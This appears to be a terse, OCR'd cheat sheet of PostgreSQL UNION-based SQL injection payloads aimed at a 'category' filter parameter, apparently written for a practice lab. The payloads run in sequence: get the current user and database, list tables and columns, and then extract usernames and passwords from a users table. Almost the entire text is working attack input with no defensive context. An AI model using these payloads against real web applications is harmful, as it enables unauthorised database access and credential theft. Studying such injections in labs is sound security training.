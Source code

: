 POST GRES

get current user

/filter?category=111Accessories' union SELECT NULL, current_user--

get current database

/filter?category=111Accessories' union SELECT NULL, current_database()--


category=Accessories' union SELECT NULL, string_agg(tablename, ', ') FROM pg_catalog.pg_tables--

category=Accessories' union SELECT NULL, tablename FROM pg_catalog.pg_tables--


get all tables name 

union SELECT NULL, tablename FROM pg_catalog.pg_tables where schemaname='public'

get all columns name
union SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users_pcmsub' AND table_schema = 'public'--

get username password

category=111Accessories' union SELECT username_emyvoc, password_glhxzi FROM users_pcmsub--

